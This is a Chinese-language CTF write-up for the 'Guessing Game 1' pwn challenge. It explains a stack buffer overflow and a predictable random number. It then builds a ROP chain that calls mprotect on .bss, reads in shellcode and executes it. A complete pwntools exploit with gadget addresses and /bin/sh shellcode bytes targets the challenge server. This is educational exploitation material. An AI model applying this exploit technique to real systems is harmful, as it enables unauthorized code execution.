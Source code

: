 # Guessing Game 1

## 0x01 常规看看

题目给了三个文件，通过makefile可知程序是静态编译

```sh
gcc -m64 -fno-stack-protector -O0 -no-pie -static -o vuln vuln.c
```

```sh
[*] '/home/kali/ctf/pwn/q36_guessing_game_1/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found 
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
事实上这次checksec有些不准，应没有canary

没开启栈保护

读源码发现存在栈溢出漏洞

```c
#define BUFSIZE 100

void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	fgets(winner, 360, stdin);
	printf("Congrats %s\n\n", winner);
}
```

此外，由于没有设种，随机数是伪随机数，另写一个程序便可知其随机数序列（要用linux编译运行）,这样我们就可以轻松利用这个漏洞了

## 0x02 初步分析

程序中没有 `system()` 函数和 `/bin/sh` 字符串，又是静态编译，无法像之前那样通过libc获取，只能使用shellcode了

但程序中栈不可执行，且无法得知栈的确切位置，只能通过别的方法注入shellcode

想到用shellcode覆盖一段bss段数据，然后将返回地址覆盖到该段执行shellcode。用gdb的 `vmmap` 命令查看，bss段可读可写不可执行，所以要想执行shellcode，就先要把bss段修改为可读可写可执行权限。

这里需要用到 `mprotect()` 函数。

## 0x03 mprotect()

linux中 `mprotect()` 可以用来修改一段指定内存区域的保护属性

函数原型：
```c
#include <unistd.h>   
#include <sys/mmap.h>   
int mprotect(const void *start, size_t len, int prot);
```

参数：

- `start` 修改权限开始地址，必须是一个内存页的起始地址，一页为 `0x1000` 
- `len` 修改长度
- `prot` 权限属性
  - `PROT_READ=4` 可读
  - `PROT_WRITE=2` 可写
  - `PROT_EXEC=1` 可执行
  - `PROT_NONE=0` 没有以上三种权限

返回值：

- `0` success
- `-1` fail, 并且系统调用错误码被覆盖

如果对内存进行不合权限的操作，内核会产生 `Segmentation fault`

这里我们希望bss段可读可写可执行，应将 `prot` 置为 `7` 

## 0x04 Pwn it！

由于是64位程序，传6个以内的参数依次由 `rdi,rsi,rdx,rcx,r8,r9`进行，所以我们首先要找 `gadget` ，即形如 `pop rdi;ret` 的小片段以进行参数传递

```sh
ROPgadget --binary vuln --only "pop|ret" | grep -E "rdi|rsi|rdx"

0x0000000000482776 : pop rax ; pop rdx ; pop rbx ; ret
0x00000000004026f5 : pop rdi ; pop rbp ; ret
0x0000000000400696 : pop rdi ; ret
0x000000000047099d : pop rdi ; ret 0xfffd
0x000000000044cc24 : pop rdx ; pop r10 ; ret
0x0000000000482777 : pop rdx ; pop rbx ; ret
0x000000000044cc49 : pop rdx ; pop rsi ; ret
0x000000000044cc26 : pop rdx ; ret
0x00000000004026f3 : pop rsi ; pop r15 ; pop rbp ; ret
0x0000000000400694 : pop rsi ; pop r15 ; ret
0x000000000041025e : pop rsi ; pop rbp ; ret
0x0000000000410ca3 : pop rsi ; ret
```

于是可以在处理好随机数后构造 `payload1` ，给bss段提权

```py
rdi_addr=0x0000000000400696
rsi_addr=0x0000000000410ca3
rdx_addr=0x000000000044cc26
payload1=b'a'*120+p64(rdi_addr)+p64(bss_addr)+p64(rsi_addr)+p64(buf_size)+p64(rdx_addr)+p64(buf_prot)+p64(mprotect_addr)+p64(main_addr)
```

接着在下一轮中用 `read` 读入shellcode

```py
payload2=b'a'*120+p64(rdi_addr)+p64(0)+p64(rsi_addr)+p64(shellcode_addr)+p64(rdx_addr)+p64(29)+p64(read_addr)+p64(main_addr)
```

最后再执行shellcode

```py
payload3=b'a'*120+p64(shellcode_addr)
```

## 0x05 exp

```py
from pwn import *
ip="124.16.75.117"
port=51001
conn=connect(ip,port)
#conn=process("./pwn/q36_guessing_game_1/vuln")
context.log_level="debug"
bss_addr=0x00000000006BC000
mprotect_addr=0x000000000044B480
buf_size=0x1000
buf_prot=0x7
rdi_addr=0x0000000000400696
rsi_addr=0x0000000000410ca3
rdx_addr=0x000000000044cc26
return_addr=0x0000000000400CEE
main_addr=0x0000000000400C8C
write_addr=0x000000000044A770
read_addr=0x000000000044A6A0
shellcode_addr=0x00000000006BC554
shellcode=b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

print(conn.recvuntil(b"What number would you like to guess?\n"))
conn.sendline(b'84')

print(conn.recvuntil(b'!\nName?'))
payload1=b'a'*120+p64(rdi_addr)+p64(bss_addr)+p64(rsi_addr)+p64(buf_size)+p64(rdx_addr)+p64(buf_prot)+p64(mprotect_addr)+p64(main_addr)
conn.sendline(payload1)



print(conn.recvuntil(b"What number would you like to guess?\n"))
conn.sendline(b'87')
print(conn.recvuntil(b'!\nName?'))
payload2=b'a'*120+p64(rdi_addr)+p64(0)+p64(rsi_addr)+p64(shellcode_addr)+p64(rdx_addr)+p64(29)+p64(read_addr)+p64(main_addr)
conn.sendline(payload2)
conn.send(shellcode)


print(conn.recvuntil(b"What number would you like to guess?\n"))
conn.sendline(b'78')
print(conn.recvuntil(b'!\nName?'))
payload3=b'a'*120+p64(shellcode_addr)
conn.sendline(payload3)
conn.interactive()

```

## 0x06 其他的做法

[Guessing Game 1 | 7Rocky](https://7rocky.github.io/en/ctf/picoctf/binary-exploitation/guessing-game-1/)
